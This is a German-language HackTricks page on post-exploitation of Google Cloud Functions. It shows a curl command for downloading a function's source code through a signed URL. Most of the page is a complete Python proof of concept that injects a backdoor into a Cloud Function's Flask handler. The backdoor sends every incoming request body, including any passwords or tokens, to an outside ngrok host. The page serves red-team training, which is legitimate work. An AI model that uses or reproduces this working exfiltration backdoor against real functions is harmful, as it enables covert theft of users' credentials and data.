 # GCP - Cloud Functions Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Cloud Functions

Finde einige Informationen über Cloud Functions in:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.sourceCodeGet`

Mit dieser Berechtigung kannst du eine **signierte URL erhalten, um den Quellcode** der Cloud-Funktion herunterzuladen:

{% code overflow="wrap" %}
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

### Cloud-Funktionsanfragen stehlen

Wenn die Cloud-Funktion sensible Informationen verwaltet, die von Benutzern gesendet werden (z. B. Passwörter oder Tokens), könnten Sie mit ausreichenden Berechtigungen **den Quellcode der Funktion ändern und diese Informationen exfiltrieren**.

Darüber hinaus verwenden Cloud-Funktionen, die in Python ausgeführt werden, **flask**, um den Webserver bereitzustellen. Wenn Sie irgendwie eine Code-Injektionsanfälligkeit im Flask-Prozess finden (zum Beispiel eine SSTI-Anfälligkeit), ist es möglich, **den Funktionshandler zu überschreiben**, der die HTTP-Anfragen für eine **bösartige Funktion** empfangen soll, die die **Anfrage exfiltrieren** kann, bevor sie an den legitimen Handler weitergeleitet wird.

Zum Beispiel implementiert dieser Code den Angriff:
```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
"""HTTP Cloud Function.
Args:
request (flask.Request): The request object.
<https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
Returns:
The response text, or any set of values that can be turned into a
Response object using `make_response`
<https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
"""

if not last:
return injection()
else:
if error:
return error
else:
return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
try:
from urllib import request as urllib_request
req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
urllib_request.urlopen(req, timeout=0.1)
except Exception as e:
if not "read operation timed out" in str(e):
return str(e)

return ""

def new_http_view_func_wrapper(function, request):
def view_func(path):
try:
error = exfiltrate(request)
return function(request._get_current_object(), last=True, error=error)
except Exception as e:
return str(e)

return view_func
"""

def injection():
global new_function
try:
from flask import current_app as app
import flask
import os
import importlib
import sys

if os.access('/tmp', os.W_OK):
new_function_path = "/tmp/function.py"
with open(new_function_path, "w") as f:
f.write(new_function)
os.chmod(new_function_path, 0o777)

if not os.path.exists('/tmp/function.py'):
return "/tmp/function.py doesn't exists"

# Get relevant function names
handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
realpath = os.path.realpath(source_path) # Get full path

# Get the modules representations
spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
module_handler = importlib.util.module_from_spec(spec_handler)

spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
module_backdoor = importlib.util.module_from_spec(spec_backdoor)

# Load the modules inside the app context
with app.app_context():
spec_handler.loader.exec_module(module_handler)
spec_backdoor.loader.exec_module(module_backdoor)

# make the cloud funtion use as handler the new function
prev_handler = getattr(module_handler, handler_fname)
new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
return "Injection completed!"

except Exception as e:
return str(e)
```

